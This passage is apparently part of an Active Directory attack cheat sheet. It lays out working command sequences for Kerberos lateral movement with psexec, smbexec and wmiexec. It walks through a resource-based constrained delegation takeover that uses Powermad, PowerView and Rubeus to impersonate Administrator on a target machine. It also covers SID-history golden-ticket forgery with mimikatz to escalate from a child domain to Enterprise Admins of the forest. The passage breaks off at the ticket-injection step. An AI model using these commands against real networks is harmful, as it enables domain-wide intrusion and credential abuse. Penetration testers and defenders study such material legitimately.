 ```
psexec.py security.local/moe@DC01.security.local -k -no-pass
smbexec.py security.local/moe@DC01.security.local -k -no-pass
wmiexec.py security.local/moe@DC01.security.local -k -no-pass
```
Other exploitattion example with machine account TGS (for full access on targeted computers):
```
#Import Powermad and use it to create a new MACHINE ACCOUNT
..\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
..\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```
# Forets
## SID filtering
If we manage to compromise a child domain of a forest and [SID filtering](https://www.itprotoday.com/windows-8/sid-filtering) isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the [SID History](https://www.itprotoday.com/windows-8/sid-history) field on a kerberos TGT ticket, that defines the "extra" security groups and privileges.

Exploitation example:
```
#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: S-1-5-21-RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory
```